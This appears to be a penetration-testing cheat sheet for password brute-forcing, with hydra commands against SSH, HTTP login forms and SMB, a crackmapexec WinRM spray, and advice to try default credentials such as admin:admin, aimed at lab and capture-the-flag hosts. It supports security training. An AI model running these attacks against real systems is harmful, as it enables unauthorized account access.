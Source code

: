 # Brute Force List

## Before Brute Force Rules

### Default Credentials

Always try default credentials first. Often, you will find that default configurations use the same password as the username:

```
admin:admin
username:username
```

Search on the internet to find the default credentials of a service or application:

```
default credentials of <service_name_here>
<service_name_here> default credentials
```

SecLists has a nice default credentials wordlists:

{% embed url="https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv" %}

## SSH

```shell
hydra -l username -P rockyou.txt ssh://<IP>
```

## HTTP

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt deliver.undiscovered.thm http-post-form "/cms/index.php:username=^USER^&userpw=^PASS^:User unknown or password wrong"
```

```
```

## SMB

```
hydra -L users.txt -p password smb://10.10.10.169
```

```
hydra -l username -P passwords.txt smb://10.10.10.169
```

```
hydra -L users.txt -P passwords.txt smb://10.10.10.169
```

## WinRM

```shell
crackmapexec winrm 10.10.140.97 -u username -p passwords.txt
```
